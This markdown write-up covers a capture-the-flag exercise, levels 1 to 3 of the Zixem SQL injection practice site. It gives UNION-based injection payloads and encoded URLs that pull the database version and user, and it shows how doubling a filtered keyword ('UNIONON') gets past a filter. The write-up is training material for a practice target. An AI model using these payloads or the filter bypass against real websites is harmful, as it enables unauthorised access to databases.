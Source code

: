 # Rules!
- Use only **UNION** BASED!
- Your mission is to select only the **version()** & **user()**.
- **Have Fun** (:

# Reference Table:
- [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-1)
- [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-2)
- [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-3)
- [Level 4](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-4)
- [Level 5](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-5)
- [Level 6](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-6)
- [Level 7](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-7)
- [Level 8](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-8)
- [Level 9](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-9)

===========================================================================================================  

## [Level 1](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-1)
Start:  
`[https://zixem.altervista.org/SQLi/level1.php?id=1](https://zixem.altervista.org/SQLi/level1.php?id=1)`  
> - **Item ID:** 1
> - **Price:** 20$

=> I guess the Query can be:  
`SELECT * FROM <db> WHERE id=1`  
=> We should add `UNION SELECT 1,2;--`  
***PAYLOAD***: `1 UNION SELECT 1,2;--`  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2;--`
> - The used SELECT statements have a different number of columns **Item ID:**
> - **Price:** $

=> So it doesn't have 2 columns, let's try again with more to see if the error still exist.  
***PAYLOAD***: `1 UNION SELECT 1,2,3;--`  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 1
> - **Price:** 20$

=> But the Data is not shown in the result. It is caused of the "id=1" data came before our data, let's **invalidate** it first.  
***PAYLOAD***: `1 AND 1=2 UNION SELECT 1,2,3;--`  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3;--`
> - **Item ID:** 2
> - **Price:** 1$

Ok let's extract *version()* and *user()*:  
***PAYLOAD***: `1 AND 1=2 UNION SELECT version(),user(),3;--`  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level1.php?id=1%20AND%201=2%20UNION%20SELECT%20version(),user(),3;--`
> - **Item ID:** zixem@localhost
> - **Price:** 5.6.33-log$

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 2](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-2)
Start:  
`[https://zixem.altervista.org/SQLi/level2.php?showprofile=4](https://zixem.altervista.org/SQLi/level2.php?showprofile=4)`  
> - **User-ID:** 4
> - **Username:** ZiX-M
> - **Age:** 17

=> Test with prev payload:  
***PAYLOAD***: `4 AND 1=2 UNION SELECT 1,2,3,4--`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%20UNION%20SELECT%201,2,3,4--`
> Nothing to show.

=> It shows nothing. That means it can be take string instead of integer, so we have to add `'` into our payload:  
***PAYLOAD***: `4 AND 1=2%27 UNION SELECT 1,2,3--`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1

=> OK, so we have problem with `apostrophe (')`  
***PAYLOAD***: `4 AND 1=2%27 UNION SELECT 1,2,3--'`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3--%27`
> The used SELECT statements have a different number of columns

=> It is ok now, but we have select wrong number of columns:  
***PAYLOAD***: `4 AND 1=2%27 UNION SELECT 1,2,3,4--'`  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%201,2,3,4--%27`
> - **User-ID:** 1
> - **Username:** 2
> - **Age:** 3

=> It is Done. Let's grep the *version()* & *user()*:  
***PAYLOAD***: `4 AND 1=2%27 UNION SELECT version(),user(),3,4--'`  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level2.php?showprofile=4%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> - **User-ID:** 5.6.33-log
> - **Username:** zixem@localhost
> - **Age:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 3](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#level-3)
Start:  
`[https://zixem.altervista.org/SQLi/level3.php?item=3](https://zixem.altervista.org/SQLi/level3.php?item=3)`  
> - **ItemID:** 3
> - **Item Name:** Laptop
> - **Seller:** Team Digi7al

=> Test with prev Payload:  
***PAYLOAD***: `3 AND 1=2%27 UNION SELECT version(),user(),3,4--'`  
`https://zixem.altervista.org/SQLi/level3.php?item=3%20AND%201=2%27%20UNION%20SELECT%20version(),user(),3,4--%27`
> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'uni select version(),user(),3,4--''' at line 1

=> The error message tells us that the statement is being interpreted as `"uni select version(),user(),3,4--''"`, which means that the `on` of union is being filtered out. To combat this, we can add another `on`, so that even after it is removed, the statement still reads union:  
***PAYLOAD***: `3 AND 1=2%27 UNIONON SELECT version(),user(),3,4--'`  
##### Result: #####  
`https://zixem.altervista.org/SQLi/level3.php?item=3%20AND%201=2%27%20UNIONON%20SELECT%20version(),user(),3,4--%27`
> - **ItemID:** 5.6.33-log
> - **Item Name:** zixem@localhost
> - **Seller:** 3

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi.md#reference-table) ######

===========================================================================================================  

